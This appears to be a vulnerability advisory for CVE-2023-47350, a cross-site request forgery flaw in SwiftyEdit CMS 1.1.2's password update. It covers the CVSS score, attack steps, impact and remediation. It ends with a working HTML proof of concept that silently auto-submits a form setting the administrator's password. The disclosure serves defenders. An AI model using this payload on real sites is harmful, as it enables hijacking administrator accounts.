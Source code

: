 # CVE-2023-47350: Cross-Site Request Forgery (CSRF) vulnerability in the user passwoprd update funcionality in SwiftyEdit CMS v1.1.2

> https://github.com/SwiftyEdit/SwiftyEdit

# Vulnerability Type
CWE-352: Cross-Site Request Forgery (CSRF)

# CVSS 8.8 HIGH
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H

# Description
The web application does not employ CSRF tokens to secure its 'Update Password' functionality in the user 'Profile'. This vulnerability allows threat actors to execute unauthorized password changes on user accounts, particularly when targeting administrators.

# Execution steps
1. The threat actor crafts a malicious link or HTML markup that, when interacted with by the target admin, initiates a password change request on the admin's account. This link or HTML can be disguised as a seemingly harmless request, such as a notification or update.
2. The admin, unaware of the malicious intent, clicks the link or interacts with the HTML markup.
3. As the admin is logged into the web application, their browser sends a request to change their password to the web application's server, just as it would for a legitimate password change.
4. The web application processes the request, changing the admin's password to a new one chosen by the attacker.
5. The attacker now has unauthorized access to the admin's account, potentially leading to data theft, privilege escalation, or other malicious actions.

# Impact
This Cross-Site Request Forgery vulnerability in SwiftyEdit CMS 1.1.2 may allow an unauthenticated threat actor to escalate his privileges to administrator. A malicious user can lure an administrator to execute the HTML markup and trigger a change of the administrator's password to any value he desires. The malicious user can then login as the administrator and create, edit and delete any content in the CMS and edit/delete users with any privilege.

# Remediation
Implement and enforce the use of a CSRF token for the 'Update Password' functionality in the user 'Profile'. This token should be generated uniquely for each user session and validated on the server before allowing the action to proceed.

# Proof of Concept code
Create an HTML file and add the following markup:

```html
<html>
  <body>
    <form action="http://swiftyedit/profile/" method="POST">
      <input type="hidden" name="s&#95;psw" value="1234" />
      <input type="hidden" name="s&#95;psw&#95;repeat" value="1234" />
      <input type="hidden" name="update&#95;psw&#95;data" value="Update" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# References
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47350](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-47350)
- [https://github.com/SwiftyEdit/SwiftyEdit/commit/90a6f3df16cd1578b2827d7b2e073451f7ce4e47](https://github.com/SwiftyEdit/SwiftyEdit/commit/90a6f3df16cd1578b2827d7b2e073451f7ce4e47)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-47350](https://nvd.nist.gov/vuln/detail/CVE-2023-47350)
